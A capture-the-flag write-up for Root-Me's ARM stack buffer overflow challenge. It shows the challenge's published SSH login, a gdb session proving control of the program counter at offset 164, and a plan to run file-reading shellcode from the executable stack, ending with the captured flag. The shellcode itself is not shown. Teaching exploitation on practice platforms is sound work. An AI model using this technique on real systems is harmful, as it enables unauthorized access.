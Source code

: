 # ELF ARM - Stack buffer overflow - basic
https://www.root-me.org/en/Challenges/App-System/ELF-ARM-Stack-buffer-overflow-basic
```
Conquer the binary to read the .passwd file.

PIE	    Position Independent Executable	          No        
RelRO	    Read Only relocations	                  Yes
NX	    Non-Executable Stack	                  No
ASLR	    Address Space Layout Randomization	          Yes
SF	    Source Fortification	                  No
SSP	    Stack-Smashing Protection	                  No
SRC	    Source code access	                          No

Challenge connection informations :

Host	            challenge04.root-me.org
Protocol	    TCP
Port	            61045
SSH access	    ssh -p 2224 app-systeme-ch45@challenge04.root-me.org
Username	    app-systeme-ch45
Password	    app-systeme-ch45
```

First, in order to plan how to solve this challenge, let's check the files and their permissions:
```bash
app-systeme-ch45@challenge04:~$ ll
total 44
drwxr-x---  2 app-systeme-ch45-cracked app-systeme-ch45 4096 Apr  7  2018 .
drwxr-xr-x 13 root                     root             4096 Mar 17  2018 ..
-r-xr-x---  1 app-systeme-ch45-cracked app-systeme-ch45 8296 May 19  2017 ch45
-r--------  1 app-systeme-ch45-cracked app-systeme-ch45  577 May 19  2017 ch45.c
-r--------  1 root                     root               46 Apr  7  2018 ._firewall
-r--------  1 root                     root              795 May 19  2017 Makefile
-rw-r-----  1 app-systeme-ch45-cracked app-systeme-ch45  306 May 19  2017 .motd
-r--------  1 app-systeme-ch45-cracked app-systeme-ch45   33 May 19  2017 .passwd
-rw-r-----  1 app-systeme-ch45-cracked app-systeme-ch45  516 May 19  2017 xinetd-app-systeme-ch45.conf
```

Next, let's check the ```xinetd-app-systeme-ch45.conf``` file:
```bash
service app-systeme-ch45
{
       flags                   = IPv6
       instances               = 50
       disable                 = no
       port                    = 61045
       socket_type             = stream
       protocol                = tcp
       wait                    = no
       user                    = app-systeme-ch45-cracked
       server                  = /usr/bin/timeout
       server_args             = -k1m 1m /challenge/app-systeme/ch45/ch45
       type                    = UNLISTED
}
```

So the plan is to overflow the stack using the remote service (in port 61045), in order to run a shell under _app-systeme-ch45-cracked_ permissions, which will display the file's content.<br>

If we'll execute the binary, it will display the following output:
```bash
app-systeme-ch45@challenge04:~$ ./ch45
Give me data to dump:
1234567890
0xbedd5ae8:  31 32 33 34 35 36 37 38 39 30
Dump again (y/n):
y                
Give me data to dump:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0xbedd5ae8:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5af8:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b08:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b18:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b28:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b38:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b48:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b58:  61 61 61 61 61
Dump again (y/n):
n
```

Ok. So, probably we'll be able to override a _lr_ value (or something like that) in the stack.<br>
Luckily, most of the function prologs pushing the _lr_ value, in order to call other functions. And most of the function epilogues popping it back.<br>
So, because there are calls to _scanf_ and _printf_ in the main function, the function's prolog should push the _lr_ value, and the function's epilogue should pop it, and put it in _pc_.<br>
In fact, the **main** function does it:
```asm
103d8:	e3012008 	movw	r2, #4104	; 0x1008
103dc:	e3402002 	movt	r2, #2
103e0:	e92d4ff0 	push	{r4, r5, r6, r7, r8, r9, sl, fp, lr}
[...snip...]
104fc:	e8bd8ff0 	pop	{r4, r5, r6, r7, r8, r9, sl, fp, pc}
```

Nice. So we've got a plan - override the _lr_ value pushed at the beginning of the function with an address to our shellcode, and then stop the execution (by not wanting to dump again). Then, our address will be popped to _pc_.<br><br>

After few tries, the following string gave this information:
```gdb
Give me data to dump:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
0xbefffab8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffac8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffad8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffae8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffaf8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb08:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb18:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb28:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb38:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb48:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb58:  41 41 41 41 44 44 44 44
Dump again (y/n):
n

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
Awesome! so we can control the _pc_ value at the end of the **main** function (it seems to be at offset of 164 bytes).<br>
Now, we'll need a place to store how shellcode.<br>
In each run, the program will show the address of the input buffer. Because the _NX_ is not set, and the address remains the same as long as the process still runs, it looks like a nice and warm place to put our shellcode.<br><br>
So, basically we'll have to follow the following steps:
<ol>
  <li>Leak the address by inserting a simple input (e.g "A").</li>
  <li>Build a shellcode which will <i>cat</i> the file's content, and override the <i>lr</i> value with the buffer's address.</li>
  <li>Watch the magic happens.</li>
</ol>
<br>

So, I wrote a python3 script which will do it. Its output is:
```sh
[!] Shellcode's length: 80.
[+] Starting communicating with the service.
[+] Found stack offset - 0xbee0fc58.
[+] Preparing the shellcode
[+] The shellcode sent to the remote service.
[+] Flag: 0v3rfl0wing_buff3rs_l1k3_4_b0ss!.
```
